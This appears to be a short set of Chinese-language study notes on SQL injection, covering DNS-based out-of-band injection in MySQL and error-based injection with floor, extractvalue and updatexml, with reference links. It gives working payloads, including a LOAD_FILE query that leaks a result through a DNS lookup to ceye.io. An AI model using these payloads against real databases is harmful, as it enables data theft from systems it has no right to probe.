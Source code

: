 ![](/images/19-2-9_SQL_思路4.png)

## DNS注入
**参考**
- https://xz.aliyun.com/t/2359
- https://www.jianshu.com/p/19ef493da938

**局限性**
mysql的话secure_file_priv为空的时候可以使用,版本基本在5.5.53之前。

**payload**
```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT 2333),'.ceye.io/abc'));
```

## 报错注入
**参考**
- https://xz.aliyun.com/t/253

在自己的vps测试了下还能够使用的报错函数有：
`floor`,`extractvalue`,`updatexml`
![](/images/19-2-9_SQL_思路5.png)
```sql
select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
select extractvalue(1,concat(0x7e,(select @@version),0x7e));
select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
```
还有一些其他姿势
